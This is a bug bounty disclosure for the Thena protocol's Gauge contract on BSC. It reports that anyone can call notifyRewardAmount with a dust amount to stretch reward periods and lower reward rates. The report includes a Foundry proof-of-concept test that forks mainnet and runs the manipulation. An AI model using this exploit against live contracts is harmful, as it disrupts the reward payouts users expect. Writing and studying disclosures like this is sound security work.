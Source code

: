 # Can manipulate the mappings `rewardRate`, `periodFinish` and the function `left`

- Protocol: [Thena](https://thena.fi)
- Severity: Low

## Target(s)

- [BribeFactoryV2](https://bscscan.com/address/0x4ffcf83feae8a44f61575722aefc2706e73c7770)

## Impact(s)

- Smart contract fails to deliver promised returns, but doesn’t lose value

## Bug Description

Some time ago I reported this bug getting a negative response Since they fixed it in the new contracts, I report it again, changing the severity

In the **Gauge** contract the function `notifyRewardAmount` could be call by anyone This function can called to increase `periodFinish[token]` by `DURATION = 7days`, modified the `rewardRate[token]` and then modifies the function `left`

This attack could repeated periodically and since this function can called with a low token amount and low transaction fee(BSC) this not disincentivize the attacker

### Impact Details

Anyone can call the function `notifyRewardAmount` and manipulate the mappings `rewardRate`, periodFinish and the function `left`

### Recommendation

Add a caller check to restrict the possible attacker Only the authorized access can update reward

### References

- [Curve doc](https://curve.readthedocs.io/dao-gauges-sidechain.html#rewardsonlygauge)

## Proof of Concept

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface Gauge {
    function rewards(uint) external view returns (address);
    function periodFinish(address) external view returns (uint);
    function rewardRate(address) external view returns (uint);
    function left(address token) external view returns (uint);

    function notifyRewardAmount(address token, uint amount) external;
}

interface IThena {
    function minter() external view returns (address);

    function approve(address spender, uint value) external returns (bool);
    function mint(address account, uint amount) external;
}

contract ThenaTest is Test {
    function testManipulated() public {
        // Set up
        vm.selectFork(vm.createFork('https://bsc-dataseed1.ninicoin.io'));

        Gauge gauge = Gauge(0x808cbA028c0c39c074E1eEE3E162545ADFC3256F);
        IThena THE = IThena(gauge.rewards(2));
        address attacker = address(1);

        // Get tokens and approve
        vm.prank(THE.minter());
        THE.mint(attacker, 7 days);
        vm.prank(attacker);
        THE.approve(address(gauge), 7 days);

        // Start

        // Save before values
        uint256 rewardRate0 = gauge.rewardRate(address(THE));
        uint256 left0 = gauge.left(address(THE));
        uint256 periodFinish0 = gauge.periodFinish(address(THE));

        // Manipulate
        vm.prank(attacker);
        gauge.notifyRewardAmount(
            address(THE),
            7 days // dust
        );

        // Save after values
        uint256 rewardRate1 = gauge.rewardRate(address(THE));
        uint256 left1 = gauge.left(address(THE));
        uint256 periodFinish1 = gauge.periodFinish(address(THE));

        // Log
        console.log("Values before manipulation:");
        console.log("\tleft:", left0);
        console.log("\trewardRate:", rewardRate0);
        console.log("\tperiodFinish:", periodFinish0);

        console.log();

        console.log("Values after manipulation:");
        console.log("\tleft:", left1);
        console.log("\trewardRate:", rewardRate1);
        console.log("\tperiodFinish:", periodFinish1);
    }
}
```

## Info after reported

Closing this report as it is a duplicate report of #######.